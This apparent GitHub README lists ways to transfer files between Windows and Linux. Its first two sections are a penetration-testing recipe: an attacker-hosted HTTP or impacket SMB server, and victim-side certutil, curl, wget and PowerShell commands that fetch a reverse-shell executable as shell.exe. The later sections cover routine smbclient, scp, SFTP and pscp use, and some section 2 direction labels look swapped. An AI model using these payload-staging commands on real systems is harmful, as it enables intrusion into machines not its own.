 
# Ways to Transfer Files From Windows to Linux or Vice versa

* ### 1. Transfer file from attacker machine to victim after initial connection

* ### 2. Transfer file through SMBv1 Protocole.

* ### 3. To transfer a file from a Windows machine to a Linux machine using SMB (Server Message Block), you can use the `smbclient` command on the Linux machine.

* ### 4. Secure Copy (scp)

* ### 5. SFTP (Secure File Transfer Protocol)

* ### 6. PuTTY secure copy client (pscp)

----------------------------------------------------------------------

## 1. Transfer file from attacker machine to victim after initial connection

### Python Server

#### On Attacker Machine

`$python -m SimpleHTTPServer 9000` 

`or`

`python3 -m http.server 80`

#### On Victim Machine

`certutil -urlcache -f http://10.17.11.201/reverse_4444.exe shell.exe`

or

`curl -o shell.exe http://10.17.11.201/reverse_4444.exe`

or 

`wget http://10.17.11.201/reverse_4444.exe -O shell.exe`

or Using powershell

`Invoke-WebRequest -Uri http://10.17.11.201/reverse_4444.exe -OutFile shell.exe`

-----------------------------------------------------------------------

## 2. Transfer file through SMBv1 Protocole.

#### On Windows to start the SMBv1 service

`Enable-WindowsOptionalFeature -Online -FeatureName "SMB1Protocol-Client" -All` In PowerShell with administrator privileges.

#### On Kali to start the SMBv1 service

[python3-impacket](https://github.com/fortra/impacket) repo.

`sudo python3 /opt/impacket/examples/smbserver.py kali .`

* `copy \\10.10.10.10\kali\reverse.exe C:\PrivEsc\reverse.exe` from windows to linux(Attacker_machine).

* `copy C:\PrivEsc\reverse.exe \\10.17.11.201\kali\reverse.exe` from linux to windows

---------------------------------------------------------------------

## 3. To transfer a file from a Windows machine to a Linux machine using SMB (Server Message Block), you can use the `smbclient` command on the Linux machine.

* Make sure that the Linux machine has the smbclient package installed.

`sudo apt-get install smbclient`

* Share a directory on the Windows machine that you want to transfer the file to. Make sure the directory is accessible by the user account you will use to connect to it via SMB.

You can create a shared directory on a Windows machine using the following steps:

1. Right-click on the folder that you want to share and select "Properties" from the context menu.

2. In the Properties window, click on the "Sharing" tab.

3. Click on the "Advanced Sharing" button.

4. Check the box next to "Share this folder" to enable sharing.

5. Enter a name for the share in the "Share name" field. This will be the name that you use to access the share from other machines on the network.

6. You can also set permissions for the share by clicking on the "Permissions" button. Here you can add or remove users and groups and set the level of access they have to the share.

7. Click "OK" to close the "Permissions" window.

8. Click "OK" again to close the "Advanced Sharing" window.

9. Finally, click "Close" to close the Properties window.

* On the Linux machine

`smbclient //WINDOWS_HOSTNAME/SHARE_NAME -U USERNAME%PASSWORD`

`smb: \> put /path/to/example.txt` : to transfer the file from the Linux machine to the Windows machine

`smb: \> get myfile.txt` : to download a file from the share

`smb: \> exit` : to close the connection

-----------------------------------------------------------------------

## 4. Secure Copy (scp)

SCP is a command-line tool, and is available on most Unix-based systems, as well as Windows systems with the installation of software such as PuTTY or WinSCP.

`scp /path/to/local/file.txt user@remotehost:/path/to/destination/`

-----------------------------------------------------------------------

## 5. SFTP (Secure File Transfer Protocol)

An SSH server must be running on the Linux machine before you start. You should also ensure you have installed an FTP app on Windows, like [FileZilla](https://filezilla-project.org/download.php), which has SFTP support.

`sudo apt list openssh-server` : to check ssh service is present

`sudo apt-get install openssh-server` : to install the ssh service

#### To regenerate the ssh key :

`mkdir /etc/ssh/default-keys`

`mv /etc/ssh/ssh_host_* /etc/ssh/default-keys/` : to save the default key

`dpkg-reconfigure openssh-server` : regenerating the keys

#### Now start the ssh service

`sudo systemctl start sshd` : to start the  ssh service

`sudo systemctl status sshd` : to check the status

`sudo systemctl enable sshd` : to enable parment start ssh service after reboot

### FileZilla :

To use this method, run FileZilla, then:

1. Open File > Site Manager
2. Create a New Site
3. Set the Protocol to SFTP
4. Add the target IP address in Host
5. Specify a username and password
6. Set the Logon Type to Normal
7. Click Connect when ready

## 1.png

![App Screenshot](https://github.com/rohit00712/Tools/blob/main/File_Transfer/images/1.PNG)

You can then use the FTP app to move files from Windows to Linux and back using drag and drop.

### Connect to SFTP server

`sftp user@<Machine_IP>`

`put /path/to/local/file /path/to/remote/file` : transfer local to remote

`get /path/to/remote/file /path/to/local/file` : remote to local machine

-------------------------------------------------------

## 6. [PuTTY secure copy client](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html) (pscp)

- `pscp` is a command-line tool for transferring files securely between Windows and Linux computers using the SSH protocol. It is part of the `PuTTY` suite of tools, which also includes PuTTY, a SSH client for Windows.

- To use `pscp`, you will need to have a SSH server running on the Linux computer that you want to transfer files to or from. You will also need to have the `pscp` tool installed on your Windows computer.

#### To transfer a file from the Linux computer to the Windows computer:

`pscp username@<linux_IP>:/path/to/file.txt C:\path\to\destination\file.txt`

-------------------------------------------------------

